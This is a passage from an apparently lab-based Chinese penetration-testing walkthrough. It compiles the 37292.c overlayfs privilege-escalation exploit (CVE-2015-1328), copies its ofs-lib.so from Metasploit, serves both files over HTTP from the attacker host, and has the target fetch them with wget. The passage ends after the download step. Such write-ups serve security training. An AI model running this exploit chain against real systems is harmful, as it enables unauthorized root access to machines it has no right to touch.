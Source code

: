 #### 5.4漏洞利用

gcc编译

```
gcc -o exp 37292.c
```

![image-20210918121714255](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918121714255.png)

编译过程中报错，但**不影响最终执行结果**

查看编译生成的exp

```
ls -l
```

![image-20210918121816991](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918121816991.png)

配合exp执行使用还需要二进制的库文件**ofs-lib.so**，定位查找该文件路径

```
locate ofs-lib.so
```

![image-20210918122041377](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918122041377.png)

拷贝至当前目录

```
cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so .
```

```
ls
```

![image-20210918122314167](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918122314167.png)

两个文件都在当前目录下

准备将其一并被下载到目标宿主机上，启动http服务

```
python3 -m http.server 80
```

![image-20210918122427173](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918122427173.png)

下载文件

```
wget http://10.0.2.4/exp
```

```
wget http://10.0.2.4/ofs-lib.so
```

![image-20210918122710747](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918122710747.png)
